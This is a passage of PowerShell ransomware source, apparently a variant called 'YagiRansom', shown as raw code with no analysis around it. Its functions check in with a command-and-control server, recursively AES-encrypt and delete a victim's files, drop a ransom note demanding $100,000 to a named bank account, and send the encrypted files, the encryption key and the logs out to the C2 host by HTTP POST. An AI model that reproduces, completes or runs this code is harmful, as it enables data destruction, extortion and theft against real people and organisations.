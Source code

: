 ```python=
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
function GetStatus {
   Try { Invoke-WebRequest -useb "$7CiB`:$UFX/status" -Method GET 
      Write-Host "[i] C2 Server is up!" -ForegroundColor Green }
   Catch { Write-Host "[!] C2 Server is down!" -ForegroundColor Red }}
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
function SendClose {
   Invoke-WebRequest -useb "$7CiB`:$UFX/close" -Method GET 2>&1> $null }
function SendPay {
   Invoke-WebRequest -useb "$7CiB`:$UFX/pay" -Method GET 2>&1> $null }
function SendOK {
   Invoke-WebRequest -useb "$7CiB`:$UFX/done" -Method GET 2>&1> $null }
function CreateReadme {
   $I26TXT = "All your files have been encrypted by YagiRansom!!`nBut don't worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours.`nTo get decryption instructions, you must transfer 100000$ to the following account:`n`nAccount Name: Mat tran To quoc Viet Nam - Ban Cuu Tro Trung uong`n`nAccount Number: 0011.00.1932418`n`nBank: Vietnam Joint Stock Commercial Bank for Foreign Trade (Vietcombank)`n"
   if (!(Test-Path "$Directory$slash$I26")) { Add-Content -Path "$Directory$slash$I26" -Value $I26TXT }}
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
function CheckFiles { 
   $RFiles = Get-ChildItem $Directory -recurse -filter *.enc ; if ($RFiles) { $RFiles } else {
   Write-Host "[!] No encrypted files found!" -ForegroundColor Red }}
# Main
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
```